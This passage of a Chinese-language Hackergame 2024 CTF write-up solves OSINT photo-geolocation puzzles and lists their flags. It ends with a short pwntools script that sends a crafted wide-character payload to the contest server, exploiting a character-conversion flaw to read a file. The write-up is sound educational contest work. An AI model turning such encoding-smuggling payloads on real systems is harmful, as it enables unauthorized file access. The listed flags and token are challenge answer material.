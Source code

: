 ![image01.jpg](/Users/upwind/Documents/GitHub/up-wind.github.io/assets/2024-11-11-hackergame2024_writeup/image01.jpg)

一开始到处搜“彩虹标线”没找对，后来注意到垃圾桶上的字“**六安园林**”，搜索“**六安 彩虹标线**”得到答案 `中央公园`

> https://www.sohu.com/a/498987928_121123834

![image04.jpg](/Users/upwind/Documents/GitHub/up-wind.github.io/assets/2024-11-11-hackergame2024_writeup/image04.jpg)

yandex 识图，很容易找到答案 `坛子岭`

![image-11](/Users/upwind/Documents/GitHub/up-wind.github.io/assets/2024-11-11-hackergame2024_writeup/image-11.png)

`flag{D3T41LS_M4TT3R_1F_R3V3RS3_S34RCH_1S_1MP0SS1BL3_26229de482}`

### OMINOUS_BELL

![image06.jpg](/Users/upwind/Documents/GitHub/up-wind.github.io/assets/2024-11-11-hackergame2024_writeup/image06.jpg)

题目给出提示”四编组动车“，Google 搜索第一个就是 `CRH6F-A`，颜色也正好对上。

![image-12](/Users/upwind/Documents/GitHub/up-wind.github.io/assets/2024-11-11-hackergame2024_writeup/image-12.png)

查看怀密号沿线的动车所可以找到**北京北动车所**，在百度地图上看卫星图，与图片中的红方顶建筑吻合，可以找到最近的 `积水潭医院`。

![image-13](/Users/upwind/Documents/GitHub/up-wind.github.io/assets/2024-11-11-hackergame2024_writeup/image-13.png)

![image-14](/Users/upwind/Documents/GitHub/up-wind.github.io/assets/2024-11-11-hackergame2024_writeup/image-14.png)

`flag{1_C4NT_C0NT1NU3_TH3_5T0RY_4NYM0R3_50M30N3_PLZ_H3LP_316d314e43}`

## 不宽的宽字符

利用宽字符和窄字符之间的转换（注意大小端），构造 payload。

```python
from pwn import *

# Connect to the server
r = remote('202.38.93.141', 14202)

token = b"1206:MEUCIAd4o1OFU540z+KgOFOkhL55keXULYECET9Nqw/MtN62AiEA7qz6mQjRePYdcqJ1S+8aY1bYn/DDwkBl0YBL5Y70nn4="

r.sendlineafter(b'token:', token)

payload = "\u6874\u6665\u616c\u0067"
#             h t   f e   a l     g

r.sendlineafter(b'it:', payload)
r.interactive()
```

`flag{wider_char_isnt_so_great_cea848a897}`
